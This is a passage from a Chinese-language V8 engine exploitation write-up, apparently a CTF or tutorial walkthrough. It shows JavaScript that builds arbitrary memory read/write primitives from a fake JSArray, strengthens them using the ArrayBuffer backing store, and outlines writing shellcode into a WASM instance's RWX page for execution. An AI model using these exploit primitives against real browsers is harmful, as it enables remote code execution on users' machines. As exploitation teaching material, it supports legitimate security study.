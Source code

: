 可以验证在输出 `fake_obj` 时显示为 `<JSArray[128]>` 类型，进一步就可以在 `fake_obj` 的基础上获得任意地址读写的能力：

### 受限的任意读写

```javascript
console.log("STEP 2 - Arbitary read and write with fake_obj.");

function arb_write(addr, data) {
  evil_float_array[2] = helper.i64tof64((addr - 0x10n) | 1n);
  fake_obj[0] = helper.i64tof64(data);
  console.log(
    "[DEBUG] Writing 0x" + helper.hex(data) + " to 0x" + helper.hex(addr),
  );
}

function arb_read(addr) {
  evil_float_array[2] = helper.i64tof64((addr - 0x10n) | 1n);
  return helper.f64toi64(fake_obj[0]);
}

let data_buf = new ArrayBuffer(0x1000);
let data_view = new DataView(data_buf);
let buf_backing_store_addr = get_addr(data_buf) + 0x20n;
```

但是上面使用 FloatArray 进行写入的时候，在目标地址高位是 0x7f 等情况下，会出现低 18 位被置零的现象，可以通过 ArrayBuffer 的利用来解决（这也是绕过没有沙盒的指针压缩的常见思路，因为 ArrayBuffer 的储存空间使用 [PartitionAlloc](https://chromium.googlesource.com/chromium/src/+/master/base/allocator/partition_allocator/PartitionAlloc.md) 分配，位于 v8 堆之外的单独内存区域中）：

### 更强的任意读写 - ArrayBuffer

- `DataView(ArrayBuffer)` 对象中的有如下指针关系：
  - ArrayBuffer 对象用来表示通用的、固定长度的原始二进制数据缓冲区；
  - 但是 ArrayBuffer 不能直接操作，需要通过 DataView 对象来提供读写多种数据类型的底层接口，因此不需要考虑字节序等问题；
  - 利用时可以考虑 `DataView -> buffer -> backing_store -> 存储内容`；
  - 即 `backing_store` 指针指向了 ArrayBuffer 真正的内存地址；

改进如下:

```javascript
let data_buf = new ArrayBuffer(0x1000);
let data_view = new DataView(data_buf);
let buf_backing_store_addr = get_addr(data_buf) + 0x20n;
```

### 最终利用 - 通过 WasmInstance 写 shellcode

现在获得了任意地址读写，最直接的思路就是：

0. 构造任意地址读写原语
1. 构造 WASM 实例
2. 读 rwx 空间地址
3. 写 shellcode
4. 调用 WASM 函数执行 shellcode
